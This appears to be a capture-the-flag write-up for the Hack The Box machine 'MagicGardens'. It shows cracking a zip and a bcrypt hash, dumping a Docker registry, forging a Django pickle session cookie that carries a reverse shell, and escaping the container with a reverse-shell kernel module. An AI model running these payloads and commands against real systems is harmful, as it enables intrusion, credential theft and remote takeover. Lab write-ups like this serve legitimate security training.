From: root <root@magicgardens.magicgardens.htb>
--1804289383-1695994309=:37178
Content-Type: text/plain; charset=UTF-8
Content-Disposition: inline
Content-Transfer-Encoding: 8bit
Content-ID: <20230929093149.37178@magicgardens.magicgardens.htb>
Use this file for registry configuration. The password is on your desk
--1804289383-1695994309=:37178
Content-Type: application/octet-stream; name="auth.zip"
Content-Disposition: attachment; filename="auth.zip"
Content-Transfer-Encoding: base64
Content-ID: <20230929093149.37178.1@magicgardens.magicgardens.htb>
UEsDBAoACQAAAG6osFh0pjiyVAAAAEgAAAAIABwAaHRwYXNzd2RVVAkAA29KRmbOSkZmdXgLAAEE
6AMAAAToAwAAVb+x1HWvt0ZpJDnunJUUZcvJr8530ikv39GM1hxULcFJfTLLNXgEW2TdUU3uZ44S
q4L6Zcc7HmUA041ijjidMG9iSe0M/y1tf2zjMVg6Dbc1ASfJUEsHCHSmOLJUAAAASAAAAFBLAQIe
AwoACQAAAG6osFh0pjiyVAAAAEgAAAAIABgAAAAAAAEAAACkgQAAAABodHBhc3N3ZFVUBQADb0pG
ZnV4CwABBOgDAAAE6AMAAFBLBQYAAAAAAQABAE4AAACmAAAAAAA=
--1804289383-1695994309=:37178--
- It’s from root to alex, and there’s an
auth.zipattachment.
- Email attachments are encoded with base64
- To decode and extract the file, we used the following command:
echo "UEsDBAoACQAAAG6osFh0pjiyVAAAAEgAAAAIABwAaHRwYXNzd2RVVAkAA29KRmbOSkZmdXgLAAEE
6AMAAAToAwAAVb+x1HWvt0ZpJDnunJUUZcvJr8530ikv39GM1hxULcFJfTLLNXgEW2TdUU3uZ44S
q4L6Zcc7HmUA041ijjidMG9iSe0M/y1tf2zjMVg6Dbc1ASfJUEsHCHSmOLJUAAAASAAAAFBLAQIe
AwoACQAAAG6osFh0pjiyVAAAAEgAAAAIABgAAAAAAAEAAACkgQAAAABodHBhc3N3ZFVUBQADb0pG
ZnV4CwABBOgDAAAE6AMAAFBLBQYAAAAAAQABAE4AAACmAAAAAAA=" | base64 -d > auth.zip
unzip auth.zip
Archive: auth.zip
[auth.zip] htpasswd password: - The
auth.zipfile was password-protected, preventing us from extracting its contents directly.
- We used zip2john to extract the password hash from
auth.zip:
zip2john auth.zip > zip_hash
ver 1.0 efh 5455 efh 7875 auth.zip/htpasswd PKZIP Encr: 2b chk, TS_chk, cmplen=84, decmplen=72, crc=B238A674 ts=A86E cs=a86e type=0
- Then used John the Ripper with the popular
rockyou.txtwordlist:
john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
realmadrid (auth.zip/htpasswd)
1g 0:00:00:00 DONE (2025-02-03 13:41) 50.00g/s 409600p/s 409600c/s 409600C/s 123456..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed.- John successfully cracked the password
- With the cracked password
realmadrid, we successfully extracted the contents ofauth.zip
unzip auth.zip
Archive: auth.zip
[auth.zip] htpasswd password:
extracting: htpasswd cat htpasswd
AlexMiles:$2y$05$KKShqNw.A66mmpEqmNJ0kuoBwO2rbdWetc7eXA7TbjhHZGs2Pa5Hq- We found a username (
AlexMiles) and a bcrypt password hash. The next step is to crack this hash to retrieve the actual password.
Alex password hash:
Using Hashcat, We were able to crack Alex's password.
hashcat -m 3200 alex_hash /usr/share/wordlists/rockyou.txt -a 0
hashcat (v6.2.6) starting
OpenCL API (OpenCL 3.0 PoCL 6.0+debian Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i3-5005U CPU @ 2.00GHz, 2872/5808 MB (1024 MB allocatable), 4MCU
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72
Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
Watchdog: Temperature abort trigger set to 90c
Initializing backend runtime for device #1. Please be patient...
$2y$05$KKShqNw.A66mmpEqmNJ0kuoBwO2rbdWetc7eXA7TbjhHZGs2Pa5Hq:diamonds
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$05$KKShqNw.A66mmpEqmNJ0kuoBwO2rbdWetc7eXA7TbjhH...2Pa5Hq
Time.Started.....: Mon Feb 3 13:56:00 2025 (1 sec)
Time.Estimated...: Mon Feb 3 13:56:01 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 1101 H/s (6.89ms) @ Accel:4 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 944/14344385 (0.01%)
Rejected.........: 0/944 (0.00%)
Restore.Point....: 928/14344385 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:16-32
Candidate.Engine.: Device Generator
Candidates.#1....: xbox360 -> diamonds
Hardware.Mon.#1..: Temp: 61c Util: 92%
Started: Mon Feb 3 13:55:53 2025
Stopped: Mon Feb 3 13:56:02 2025
Docker Registry:
- During our initial Nmap scan, we identified an HTTPS Docker Registry (v2.0) running on port 5000.
- From Hacktricks, we learned about common enumeration techniques for Docker Registry.
- Checking for accessible directories, we found
/v2, which requires authentication (username and password).
- Since we previously found credentials (
AlexMiles:diamonds), we can attempt to dump the Docker Registry.
Using Docker Registry Grabber:
DockerRegistryGrabber is a Python tool that allows enumeration and dumping of Docker Registries, both with and without authentication.
We used the following command to dump the registry:
python3 /opt/DockerRegistryGrabber/drg.py https://magicgardens.htb -U AlexMiles -P diamonds --dump magicgardens.htb
[+] BlobSum found 32
[+] Dumping magicgardens.htb
[+] Downloading : d3a3443a740ae9a727dbd8868b751b492da27507f3cbbe0965982e65c436b8c0
[+] Downloading : 2ed799371a1863449219ad8510767e894da4c1364f94701e7a26cc983aaf4ca6
[+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
[+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
[+] Downloading : b0c11cc482abe59dbeea1133c92720f7a3feca9c837d75fd76936b1c6243938c
[+] Downloading : 748da8c1b87e668267b90ea305e2671b22d046dcfeb189152bf590d594c3b3fc
[+] Downloading : 81771b31efb313fb18dae7d8ca3a93c8c4554aa09239e09d61bbbc7ed58d4515
[+] Downloading : 35b21a215463f8130302987a1954d01a8346cdd82c861d57eeb3cfb94d6511a8
[+] Downloading : 437853d7b910e50d0a0a43b077da00948a21289a32e6ce082eb4d44593768eb1
[+] Downloading : f9afd820562f8d93873f4dfed53f9065b928c552cf920e52e804177eff8b2c82
[+] Downloading : d66316738a2760996cb59c8eb2b28c8fa10a73ce1d98fb75fda66071a1c659d6
[+] Downloading : fedbb0514db0150f2376b0f778e5f304c302b53619b96a08824c50da7e3e97ea
[+] Downloading : 480311b89e2d843d87e76ea44ffbb212643ba89c1e147f0d0ff800b5fe8964fb
[+] Downloading : 02cea9e48b60ccaf6476be25bac7b982d97ef0ed66baeb8b0cffad643ece37d5
[+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
[+] Downloading : 8999ec22cbc0ab31d0e3471d591538ff6b2b4c3bbace9c2a97e6c68844382a78
[+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
[+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
[+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
[+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
[+] Downloading : 470924304c244ba833543bb487c73e232fd34623cdbfa51d30eab30ce802a10d
[+] Downloading : 4bc8eb4a36a30acad7a56cf0b58b279b14fce7dd6623717f32896ea748774a59
[+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
[+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
[+] Downloading : 9c94b131279a02de1f5c2eb72e9cda9830b128840470843e0761a45d7bebbefe
[+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
[+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
[+] Downloading : c485c4ba383179db59368a8a4d2df3e783620647fe0b014331c7fd2bd8526e5b
[+] Downloading : 9b1fd34c30b75e7edb20c2fd09a9862697f302ef9ae357e521ef3c84d5534e3f
[+] Downloading : d31b0195ec5f04dfc78eca9d73b5d223fc36a29f54ee888bc4e0615b5839e692
[+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
[+] Downloading : de4cac68b6165c40cf6f8b30417948c31be03a968e233e55ee40221553a5e570
- After dumping the Docker Registry, we need to inspect the extracted tar.gz files for any sensitive information related to the user morty.
- We use the following command to search for files containing the keyword morty inside the archives:
- After identifying tar.gz files containing references to
morty, we extracted each archive to analyze its contents.
zgrep -la morty *.tar.gz
2ed799371a1863449219ad8510767e894da4c1364f94701e7a26cc983aaf4ca6.tar.gz
480311b89e2d843d87e76ea44ffbb212643ba89c1e147f0d0ff800b5fe8964fb.tar.gz
b0c11cc482abe59dbeea1133c92720f7a3feca9c837d75fd76936b1c6243938c.tar.gz
d3a3443a740ae9a727dbd8868b751b492da27507f3cbbe0965982e65c436b8c0.tar.gz
qd66316738a2760996cb59c8eb2b28c8fa10a73ce1d98fb75fda66071a1c659d6.tar.gzFrom the second file:
┌──(python_env)─(deepak㉿kali)-[~/…/Insane_Linux/MagicGardens/docker_dump/magicgardens.htb]
└─$ tar -xf 480311b89e2d843d87e76ea44ffbb212643ba89c1e147f0d0ff800b5fe8964fb.tar- During the inspection, we found a .env file that contained a SECRET_KEY.
┌──(python_env)─(deepak㉿kali)-[~/…/magicgardens.htb/usr/src/app]
└─$ ls -la
total 204
drwxr-xr-x 6 deepak deepak 4096 Aug 28 2023 .
drwxr-xr-x 3 deepak deepak 4096 Aug 28 2023 ..
drwxr-x--- 3 deepak deepak 4096 Aug 11 2023 app
-rwxr-x--- 1 deepak deepak 176128 Aug 11 2023 db.sqlite3
-rwxr-x--- 1 deepak deepak 97 Aug 11 2023 .env
-rwxr-x--- 1 deepak deepak 561 Aug 11 2023 manage.py
drwxr-x--- 3 deepak deepak 4096 Aug 11 2023 media
drwxr-x--- 4 deepak deepak 4096 Aug 11 2023 static
drwxr-x--- 6 deepak deepak 4096 Aug 11 2023 store
┌──(python_env)─(deepak㉿kali)-[~/…/magicgardens.htb/usr/src/app]
└─$ cat .env
DEBUG=False
SECRET_KEY=55A6cc8e2b8#ae1662c34)618U549601$7eC3f0@b1e8c2577J22a8f6edcb5c9b80X8f4&87bDjango Serialization Exploit:
- In Django, the SECRET_KEY is used to sign session cookies, ensuring their integrity and preventing tampering. If an attacker gains access to the
SECRET_KEY, they can forge valid session cookies, potentially hijacking user sessions and gaining unauthorized access.
- Through random searching, I discovered that Django has a serialization exploit that can be used to execute arbitrary code.
- We leverage Django's PickleSerializer along with the leaked
SECRET_KEYto generate a signed malicious session cookie.
- This allows us to inject and execute arbitrary commands on the target system.
- This is the reverse shell payload used
/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.90/4444 0>&1'- To encode your reverse shell in Base64, replace the IP and port with your own and run:
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
from django.conf import settings
settings.configure(SECRET_KEY="55A6cc8e2b8#ae1662c34)618U549601$7eC3f0@b1e8c2577J22a8f6edcb5c9b80X8f4&87b")
class CreateTmpFile(object):
def __reduce__(self):
import subprocess
return (subprocess.call,
(['bash',
'-c','echo L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOTAvNDQ0NCAwPiYxJw== | b>
sess = signing.dumps(
obj=CreateTmpFile(),
serializer=PickleSerializer,
salt='django.contrib.sessions.backends.signed_cookies'
)
print(sess)
- This script generates a signed session token containing a reverse shell payload. Injecting this session into an authenticated request results in remote code execution (RCE), granting us a reverse shell on the target.
python3 serliaze.py
gAWVmgAAAAAAAACMCnN1YnByb2Nlc3OUjARjYWxslJOUXZQojARiYXNolIwCLWOUjGxlY2hvIEwySnBiaTlpWVhOb0lDMWpJQ2N2WW1sdUwySmhjMmdnTFdrZ1BpWWdMMlJsZGk5MFkzQXZNVEF1TVRBdU1UUXVPVEF2TkRRME5DQXdQaVl4Snc9PSB8IGJhc2U2NCAtZCB8IGJhc2iUZYWUUpQu:1tf07m:pwA7PcRcPofIcIanbm_JnTpEk-H_yP8Wz2ilp0WkcJA
- After generating the serialized payload, we obtained the session ID
- We then captured an authenticated request in Burp Suite, modified the
sessionidcookie to the newly generated value, and forwarded the request.

- This successfully executed our reverse shell payload, granting us a shell on the target system.
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.90] from (UNKNOWN) [10.10.11.9] 37520
bash: cannot set terminal process group (16): Inappropriate ioctl for device
bash: no job control in this shell
root@5e5026ac6a81:Privilege Escalation:
- Even though we obtained a root shell, we were still inside a Docker container.
- Our next goal was to escape the container and gain access to the host system.
- Run the following command inside the container to check the capabilities granted to the current user:
root@5e5026ac6a81:/usr/src# capsh --print
capsh --print
Current: cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_audit_write,cap_setfcap=ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_audit_write,cap_setfcap
Ambient set =
Current IAB: !cap_dac_read_search,!cap_linux_immutable,!cap_net_broadcast,!cap_net_admin,!cap_ipc_lock,!cap_ipc_owner,!cap_sys_rawio,!cap_sys_ptrace,!cap_sys_pacct,!cap_sys_admin,!cap_sys_boot,!cap_sys_nice,!cap_sys_resource,!cap_sys_time,!cap_sys_tty_config,!cap_mknod,!cap_lease,!cap_audit_control,!cap_mac_override,!cap_mac_admin,!cap_syslog,!cap_wake_alarm,!cap_block_suspend,!cap_audit_read,!cap_perfmon,!cap_bpf,!cap_checkpoint_restore
Securebits: 00/0x0/1'b0 (no-new-privs=0)
secure-noroot: no (unlocked)
secure-no-suid-fixup: no (unlocked)
secure-keep-caps: no (unlocked)
secure-no-ambient-raise: no (unlocked)
uid=0(root) euid=0(root)
gid=0(root)
groups=0(root)
Guessed mode: HYBRID (4)- CAP_SYS_MODULE is enabled, it allows loading and unloading kernel modules, which can be exploited to escape the container and gain control over the host machine.
Exploiting CAP_SYS_MODULE for Container Escape:
- We discovered that the container had the CAP_SYS_MODULE capability enabled, which allows us to load and unload kernel modules.
- This is a major security risk because we can create a malicious kernel module that grants us full control over the host system.
- We created a kernel module that executes a reverse shell when loaded. The following C code was used to create the module:
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.27/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
- Then created a Makefile to compile the module:
obj-m += reverse-shell.o
KDIR := /lib/modules/$(shell uname -r)/build
PWD := $(shell pwd)
all:
$(MAKE) -C $(KDIR) M=$(PWD) modules
clean:
$(MAKE) -C $(KDIR) M=$(PWD) clean
- To compile the module, we ran:
root@5e5026ac6a81:/usr/src# make
make
make: Warning: File 'Makefile' has modification time 964 s in the future
make -C /lib/modules/6.1.0-20-amd64/build M=/usr/src modules
make[1]: Entering directory '/usr/src/linux-headers-6.1.0-20-amd64'
make[2]: Warning: File '/usr/src/Makefile' has modification time 963 s in the future
CC [M] /usr/src/reverse-shell.o
make[2]: warning: Clock skew detected. Your build may be incomplete.
make[2]: Warning: File '/usr/src/Makefile' has modification time 963 s in the future
MODPOST /usr/src/Module.symvers
make[2]: warning: Clock skew detected. Your build may be incomplete.
CC [M] /usr/src/reverse-shell.mod.o
LD [M] /usr/src/reverse-shell.ko
BTF [M] /usr/src/reverse-shell.ko
Skipping BTF generation for /usr/src/reverse-shell.ko due to unavailability of vmlinux
make[1]: Leaving directory '/usr/src/linux-headers-6.1.0-20-amd64'
make: warning: Clock skew detected. Your build may be incomplete.
- After compiling, we loaded the module into the kernel using:
root@5e5026ac6a81:/usr/src# insmod reverse-shell.ko
insmod reverse-shell.ko- This executed our reverse shell payload, giving us access to the host machine as root.
nc -lvnp 4444
listening on [any] 4444 ...
[1] + continued nc -lvnp 4444
connect to [10.10.14.27] from (UNKNOWN) [10.10.11.9] 41100
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@magicgardens:/root# ls
ls
docker
healthcheck.sh
root.txt
Appreciation
If my write-up helped you, I’d really appreciate it if you could show your support! 🙏 Also, if you like my content, please consider giving me respect on HTB—your support truly means a lot! 💚✨


Found a Mistake?
If you notice any errors or have feedback, feel free to email me at ashwin200323@gmail.com. Thanks for your help!